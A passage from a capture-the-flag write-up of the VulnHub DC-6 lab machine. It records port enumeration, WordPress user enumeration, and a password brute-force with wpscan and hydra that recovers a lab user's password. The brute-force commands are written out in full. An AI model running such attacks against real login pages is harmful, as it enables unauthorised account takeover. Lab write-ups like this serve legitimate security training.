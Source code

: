 2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

![writeup.enumeration.steps.2.1](Box%20Write-ups/vulnhub.dc6/openports.png)  

3\. We start with `80/tcp` and are presented with a `Wordpress` installation. We run `wpscan` to enumerate users and find 5 hits:  
``` {.python .numberLines}
admin, graham, mark, sarah and jens

```

![writeup.enumeration.steps.3.1](Box%20Write-ups/vulnhub.dc6/screenshot01.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp  |  ssh   |  OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.4.25 ((Debian))
```
#### Users
``` {.python .numberLines}
ssh: graham, mark, sarah, jens
wordpress: admin, graham, mark, sarah, jens
```

\newpage
## Phase #2: Exploitation
1\. The VulnHub page for this VM gave a clue to create a custom wordlist from `rockyou.txt` to save time on bruteforce. This was a good starting point:  
``` {.python .numberLines}
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt

```

2\. We run a Wordpress password bruteforce scan and find a hit for user `mark`:  
``` {.python .numberLines}
wpscan --url http://wordy/ --wordlist ./passwords.txt → helpdesk01

```

![writeup.exploitation.steps.2.1](Box%20Write-ups/vulnhub.dc6/screenshot04.png)  

3\. Running a Wordpress password bruteforce scan using `hydra` gave similar results:  
``` {.python .numberLines}
hydra -l mark -P passwords.txt 192.168.92.170 http-post-form "/wp-login.php:log=mark&pwd=^PASS^:ERROR" → helpdesk01

```

![writeup.exploitation.steps.3.1](Box%20Write-ups/vulnhub.dc6/screenshot02.png)  
